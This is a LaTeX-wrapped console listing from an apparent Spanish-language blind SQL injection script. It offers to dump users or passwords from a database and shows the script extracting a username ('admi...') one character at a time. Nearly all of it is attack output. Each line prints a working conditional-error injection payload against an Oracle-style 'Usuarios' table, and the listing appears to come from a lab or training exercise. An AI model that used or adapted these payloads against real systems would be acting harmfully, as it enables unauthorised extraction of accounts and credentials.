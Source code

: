 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[style=console, basicstyle=\ttfamily\footnotesize]
    ___  ___         __    ___            __            
   / _ )/ (_)__  ___/ /   / _ )___  ___  / /__ ___ ____ 
  / _  / / / _ \/ _  /   / _  / _ \/ _ \/ / -_) _ `/ _ \
 /____/_/_/_//_/\_,_/   /____/\___/\___/_/\__/\_,_/_//_/
    ________    __   ____       ____        _      __      
   / __/ __ \  / /  /  _/      / __/_______(_)__  / /_     
  _\ \/ /_/ / / /___/ /      _\ \/ __/ __/ / _ \/ __/     
 /___/\___\_\/____/___/     /___/\__/_/ /_/ .__/\__/      
                                         /_/             
 Selecciona qué deseas extraer de la BD:
 1. Usuarios
 2. Contraseñas
 Opción (1 o 2): 1
 
 [+] Extrayendo datos para la fila 1...
 
 [+] Determinando la longitud de 'username' para la fila 1...
 FAIL Probando longitud 1 para la fila 1...
 FAIL Probando longitud 2 para la fila 1...
 FAIL Probando longitud 3 para la fila 1...
 FAIL Probando longitud 4 para la fila 1...
 OK Probando longitud 5 para la fila 1...
 [*] La longitud de 'username' en la fila 1 es: 5
 
 [+] Extrayendo el valor de 'username' para la fila 1...
 
 [+] Extrayendo carácter 1 de 5 para la fila 1...
 OK Carácter 1: 'a' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 1, 1) = 'a') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 2 de 5 para la fila 1...
 OK Carácter 2: 'd' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 2, 1) = 'd') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 3 de 5 para la fila 1...
 OK Carácter 3: 'm' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 3, 1) = 'm') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 4 de 5 para la fila 1...
 OK Carácter 4: 'i' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 4, 1) = 'i') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 

\end{lstlisting}
\end{document}
